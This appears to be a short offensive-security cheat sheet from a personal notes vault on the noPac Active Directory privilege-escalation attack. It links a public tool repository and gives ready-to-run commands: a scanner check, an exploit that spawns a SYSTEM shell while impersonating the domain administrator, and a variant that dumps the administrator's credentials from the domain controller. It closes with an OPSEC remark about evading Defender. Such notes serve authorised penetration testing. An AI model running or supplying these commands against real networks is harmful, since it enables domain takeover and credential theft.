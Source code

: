 ```yaml
---
tags:
  - Authenticated
  - Domain-Admin
  - Lateral-Movement
  - Local
  - Privilege-Escalation
  - AD
---
```

[https://github.com/Ridter/noPac.git](https://github.com/Ridter/noPac.git)
## Identify
---
```PowerShell
sudo python3 scanner.py domain.local/user:'password' -dc-ip <DCIP> -use-ldap
```
## Exploit
---
```PowerShell
sudo python3 noPac.py DOMAIN.LOCAL/user:'pass' -dc-ip <dcip>  -dc-host DC01 -shell --impersonate administrator -use-ldap
```
```PowerShell
sudo python3 noPac.py DOMAIN.LOCAL/user:'pass' -dc-ip <dcip>  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user DOMAIN/administrator
```

> [!important] OPSEC: will spawn a SYSTEM shell with smbsexec - shell may establish but defender will likely block further execution.